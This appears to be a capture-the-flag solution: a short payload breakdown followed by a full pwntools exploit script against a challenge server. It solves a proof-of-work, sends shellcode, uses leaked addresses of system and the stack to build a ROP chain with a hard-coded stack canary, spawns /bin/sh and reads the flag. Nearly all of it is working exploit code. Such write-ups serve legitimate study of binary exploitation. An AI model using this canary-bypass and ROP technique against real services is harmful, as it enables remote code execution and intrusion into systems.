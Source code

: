 ```python
payload = "/bin/sh\0" + \               # /bin/sh string
    "\0" * 8 * 2 + \                    # padding
    "\xf3\x48\x0f\xae\xd0H\xb8\xc5" + \ # the canary (first 8 byte of playground)
    "\0" * 8 * 1 + \                    # bogus rbp for `leave`
    p64(0x400b3e) + \                   # pop rax; pop r[^a]x
    p64(stack) + \                      # addr to `/bin/sh`
    p64(0) + \                          # bogus value for r[^a]x register
    p64(system)                         # call system
```

## Script

```python
from pwn import *
from hashlib import sha1

def proof(t, prefix):
    i = 0
    while True:
        if sha1(str(t + str(i)).encode()).hexdigest().startswith(prefix):
            return str(i)
        i += 1

io = remote("hitme.tasteless.eu", 10801)
pow_chal = io.readuntil("...").split("(")[1].split(",")[0]

res = proof(pow_chal, "00000")
io.sendline(res)
io.recvuntil("All your shellcode are belong to us!\n")
shellcode = "\xf3\x48\x0f\xae\xd0"
io.send(shellcode)

io.recvuntil("you may need it: ")
system = int(io.recvline().strip(), 16)
io.recvuntil(": ")
stack = int(io.recvline().strip(), 16)

log.info("system @ : " + hex(system))
log.info("stack @ : " + hex(stack))

io.recvuntil("fish?\n")
payload = "/bin/sh\0" + "\0" * 8 * 2 + "\xf3\x48\x0f\xae\xd0H\xb8\xc5" + "\0" * 8 * 1 + p64(0x400b3e) + p64(stack) + p64(0) + p64(system)
io.sendline(str(len(payload)))
io.recvuntil("ropchain!")
io.send(payload)
io.sendline("cat flag.txt")
flag = io.recvuntil("}").strip()
log.info("Flag : {}".format(flag))
```